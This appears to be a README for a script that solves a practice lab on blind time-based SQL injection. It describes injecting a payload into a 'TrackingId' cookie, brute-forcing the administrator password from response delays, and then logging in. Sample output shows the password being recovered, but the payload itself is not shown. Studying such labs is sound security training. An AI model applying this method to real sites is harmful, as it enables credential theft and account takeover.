 ## Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on time delays
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ python main.py
```

## Expected Output

```
⦗#⦘ Injection point: TrackingId
⦗1⦘ Determining password length.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 13 
            .......
❯❯ Checking if length = 20 [ Correct length: 20 ]
⦗2⦘ Brute forcing password.. 
❯❯ Checking if char at position 7 =  q [ Correct password: 16vexiq ]
❯❯ Checking if char at position 15 =  8 [ Correct password: 16vexiq6xv0go08 ]
            .......
❯❯ Checking if char at position 20 =  q [ Correct password: 16vexiq6xv0go08or4vq ]
⦗3⦘ Fetching the login page.. OK
⦗4⦘ Extracting the csrf token and session cookie.. OK
⦗5⦘ Logging in as the administrator.. OK
⦗6⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
